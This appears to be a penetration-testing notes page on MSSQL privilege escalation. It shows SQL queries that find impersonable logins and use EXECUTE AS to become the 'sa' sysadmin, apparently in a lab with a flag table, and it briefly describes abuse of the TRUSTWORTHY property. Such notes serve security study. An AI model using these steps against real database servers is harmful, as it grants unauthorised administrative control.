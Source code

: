 ```yaml
---
description: MSSQL Privilege Escalation
---
```


# MSSQL Attacks

`privilege escalation` in `MSSQL Server`, where the goal is to get a login with the server-level [sysadmin](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles?view=sql-server-ver16) role, like the `sa` login which is disabeld by default.

### <mark style="color:yellow;">Impersonating Logins</mark>

MSSQL has a statement EXECUTE AS which allows to execute commands of a session to another login or user, like impersonation.

Check which logins are allowed to impersonate.

```sql
SELECT name FROM sys.server_permissions
JOIN sys.server_principals
ON grantor_principal_id = principal_id
WHERE permission_name = 'IMPERSONATE';

# oneliner
SELECT name FROM sys.server_permissions JOIN sys.server_principals ON grantor_principal_id = principal_id WHERE permission_name = 'IMPERSONATE';
```

Impersonate SA login

```sql
# Impersonate
EXECUTE AS LOGIN = 'sa';

# Use database
use priv_esc;

# Show tables
SELECT name FROM sys.tables;

# Select column
SELECT * FROM flag;
```

### <mark style="color:yellow;">Abusing Trustworthy Databases</mark>

{% hint style="info" %}
MSSQL Server `databases` have a property called [TRUSTWORTHY](https://learn.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property?view=sql-server-ver16). Sysadmins can enable this and then assign the server-level `sysadmin` role to arbitrary `logins`.
{% endhint %}
